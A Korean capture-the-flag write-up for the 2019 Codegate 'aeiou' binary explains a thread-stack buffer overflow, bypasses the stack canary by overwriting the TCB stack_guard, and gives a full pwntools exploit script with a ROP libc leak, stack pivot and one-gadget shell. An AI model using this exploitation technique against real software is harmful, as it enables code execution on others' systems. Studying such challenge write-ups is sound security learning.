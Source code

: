 ```yaml
---
title: "2019 Codegate aeiou"
date: 2020-1-9
ctf: Codegate CTF
layout: post
---
```


64bit 바이너리가 주어진다.

```
aeiou: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=1c2c4b1f2f26f776c18181389463bc18024091b4, stripped
```

보호기법은 Full RELRO, Canary, NX가 걸려있다.

```
[*] '/vagrant/ctfs/aeiou'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`pthread_create` 함수로 스레드 생성해서 `start_routine` 함수를 실행해주는 부분이다.

```c
int sub_401507()
{
  int result; // eax
  pthread_t newthread; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  pthread_create(&newthread, 0LL, start_routine, 0LL);
  result = pthread_join(newthread, 0LL);
  if ( result )
  {
    puts("oooooh :(");
    result = 1;
  }
  return result;
}
```

pthread_create Code : [Link](https://code.woboq.org/userspace/glibc/nptl/pthread_create.c.html)

pthread_create Description : [Link](https://www.joinc.co.kr/w/man/3/pthread_create)

`sub_400FF5` 함수를 보면 입력한 수를 atoi로 정수로 변환해서 v2에 저장한다. v2 버퍼 크기는 0x1000인데 0x1000이상을 입력할 수 있다. 또 그 크기만큼 `sub_401170` 함수에서 입력을 받는다. 근데 문제는 카나리가 걸려있다는 점이다. 

```c
void *__fastcall start_routine(void *a1)
{
  unsigned __int64 v2; // [rsp+8h] [rbp-1018h]
  char s; // [rsp+10h] [rbp-1010h]
  unsigned __int64 v4; // [rsp+1018h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(&s, 0, 0x1000uLL);
  puts("Hello!");
  puts("Let me know the number!");
  v2 = sub_400FF5();
  if ( v2 <= 65536 )
  {
    sub_401170(0, &s, v2);
    puts("Thank You :)");
  }
  else
  {
    puts("Too much :(");
  }
  return 0LL;
}
```

`pthread_create` 함수에 쓰레드가 생성되면 이 쓰레드가 사용할 스택을 만들어주는데 이 쓰레드의 스택에 `stack_guard` 가 존재한다. 

```c
typedef struct
{
void *tcb; /* Pointer to the TCB. Not necessary the
thread descriptor used by libpthread. */
dtv_t *dtv;
void *self; /* Pointer to the thread descriptor. */
int multiple_threads;
uintptr_t sysinfo;
uintptr_t stack_guard;
uintptr_t pointer_guard;
} tcbhead_t;
```

TCB 구조체를 보면 `stack_guard` 영역은 `fs:0x28` Canary 영역의 값이다. `stack_guard` 와 Canary랑 비교하는데 Canary를 A로 쭉 덮고 stack_guard도 A로 쭉 덮으면 SSP를 우회할 수 있다.

TCB Overwrite : [Link](https://bases-hacking.org/tcb-overwrite.html)

익스는 간단하다. Canary를 A로 쭉 덮어주고 gadget들 이용해서 libc구해준다. stack pivoting으로 oneshot 날려주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'
e = ELF('./aeiou')
p = process('./aeiou')
libc = e.libc
prdi = 0x00000000004026f3 # pop rdi ; ret
prsi_r15 = 0x00000000004026f1 # pop rsi ; pop r15 ; ret
prbp = 0x0000000000400c70 # pop rbp ; ret
sla = lambda x,y : p.sendlineafter(x,y)
sl = lambda x : p.sendline(x)
s = lambda x : p.send(x)
bss = 0x00000000006040CA
leave_ret = 0x0000000000400d70 # leave ; ret

payload = 'A'*0x1008
payload += 'AAAAAAAA' # Canary
payload += 'AAAAAAAA'
payload += p64(prdi) + p64(e.got['system']) + p64(e.plt['puts'])
payload += p64(prdi) + p64(0) + p64(prsi_r15) + p64(bss) + p64(0) + p64(e.plt['read'])
payload += p64(prbp) + p64(bss-8)
payload += p64(leave_ret) 
payload = payload.ljust(0x2000,'A') # Canary dup

'''
payload = 'A'*0x1008
payload += 'realsung' # Canary
payload += 'AAAAAAAA'
payload += p64(prdi) + p64(e.got['puts']) + p64(e.plt['puts'])
payload += p64(prdi) + p64(0) + p64(prsi_r15) + p64(bss) + p64(0) + p64(e.plt['read'])
payload += p64(prbp) + p64(bss-8)
payload += p64(leave_ret) 
payload = payload.ljust(0x17e8,'A')
payload += 'realsung' # Canary
'''

sla('>>','3')
sl(str(len(payload)))
s(payload)

libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - libc.symbols['system']
log.info('libc_base : ' + hex(libc_base))

sl(p64(libc_base + 0x4526a))

p.interactive()
```

